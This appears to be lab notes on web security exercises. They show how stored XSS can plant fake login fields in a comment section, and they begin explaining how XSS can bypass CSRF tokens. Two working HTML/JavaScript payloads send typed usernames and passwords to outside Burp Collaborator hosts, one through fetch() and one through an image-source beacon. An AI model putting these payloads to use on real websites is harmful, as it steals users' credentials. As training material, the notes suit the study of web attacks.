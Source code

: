 In this case we're going to recreate a phising attack using a XSS stored. The idea is that the user introduce the username and the password in the comment section.

I doubt that this example will work in the real life, I think that will better do another alternatives like use a link with a page just like the login page.

Put this in comment section and reload the collaborator:

```html
<input name=username id=username> 
<input type=password name=password onchange="if(this.value.length)fetch('https://5oue0tby4xal13oh3gs5qle6mxsoge43.oastify.com',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```

You can use **img.src** to exfiltrate the data, this have the following advantages:

- You can avoid **CORS restrictions**.
- **You don't need to use fetch() or CSRF tokens**, is more stealthy.
- Create invisible image 1x1.

```html
<input type="text" name="username">
<input type="text" name="password" onchange=obtain_values()>

<script>
function obtain_values(){
    var username = document.getElementsByName('username')[0]?.value || '';
    var password = document.getElementsByName('password')[0]?.value || '';

    var img = new Image();
    img.src = `https://367cirtwmvsjj16flea38jw44vamydm2.oastify.com/steal?u=${encodeURIComponent(username)}&p=${encodeURIComponent(password)}`;
}
</script>
```

# Exploiting XSS to bypass CSRF defenses

Cross Site Request Foregery vulnerability exploit the trust of the server to obtain senstive data or do some malicious actions, for example:

A victim user is authenticated in a bank website and visit a malicious website that do a a request to the bank website with session cookies obtained automatically because the user is authenticate. Then the attacker can transfer money, change password, mail...

To avoid this vulnerability when you try to change the email of the user in post send two parameters, the new email and the CSRF token that is normally generated when the user log in. This is a random string that request the server protecting from this attacks.

Login with wiener:peter, then change the email and intercept with burpsuite and obtain this post:

```
email=test@test.com&csrf=sYxDTNVeIbHegX5dx5wkxzK0winKWh4F
```

If you search in the source code of the page, and filter by csrf you can found the same value in a input tag but **hidden**.
